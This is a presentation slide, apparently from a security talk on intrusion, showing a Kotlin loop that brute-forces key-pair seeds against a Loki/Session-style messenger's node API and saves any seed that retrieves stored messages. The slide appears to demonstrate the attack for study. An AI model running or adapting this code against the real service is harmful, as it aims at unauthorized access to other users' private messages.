

# 최종코드#1
CoroutineScope(Dispatchers.Default).launch {
            while (true) {
                delay(50)
                val keyPairGenerationResult1 = KeyPairUtilities.generateBruteForce()
                val seed1 = String(keyPairGenerationResult1.seed)
                val userPublicKey1 = keyPairGenerationResult1.x25519KeyPair!!.hexEncodedPublicKey
                val result = SnodeAPI.getMessageBruteForce(userPublicKey1, seed1)
                result.successUi {
                    if (it.result) {
                        checking_number1 += 1
                        TextSecurePreferences.setBruteforceresult(Context,  "BruteForceResult"+ checking_number1.toString(), it.seed);
                        Log.e("Loki", "bruteforce success seed is ${it.seed}")
                    }
                }
            }
        }
19
Hacker’s In inTrusion